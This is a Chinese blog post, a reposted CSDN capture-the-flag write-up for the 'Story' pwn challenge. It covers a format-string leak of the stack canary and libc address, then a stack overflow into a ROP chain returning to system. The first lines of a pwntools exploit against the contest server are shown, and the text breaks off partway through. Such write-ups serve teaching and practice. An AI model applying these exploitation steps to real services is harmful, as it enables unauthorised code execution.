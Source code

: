 

# linux sort 0x7f,【真题解析】浅析CTF中PWN题型的解题思路_余曉波的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42500631/article/details/117006814](https://blog.csdn.net/weixin_42500631/article/details/117006814)

原标题：【真题解析】浅析CTF中PWN题型的解题思路

前言

写一下西湖论剑里的三道pwn题，主要讲一下第二道，因为后面我才发现自己解第二道好像是非预期解。。讲一下自己的解题思路吧。

1

PWN之一——Story

常规基础pwn，格式化字符串+ROP。

漏洞：

格式化字符串：

printf(&s);

栈溢出：

if( v1 < 0)

v1 = -v1;

if( v1 > 128)

v1 = 1024LL;

puts( "You can speak your story:");

rread((__int64)&s, v1);

思路：

1、格式化字符串先泄漏canary的值和__libc_start_main的值，得到libc

2、找ROP_gadget

3、栈溢出，覆盖到ROP，返回system

EXP：

frompwn import *

#p = process('./story')

p = remote( 'ctf3.linkedbyx.com',11045)

elf = ELF( './story')

libc = ELF( './libc.so')

p.recvuntil( 'Please Tell Your ID:')

p.sendline( '%15$p,%25$p')

p.recvuntil( 'Hello ')
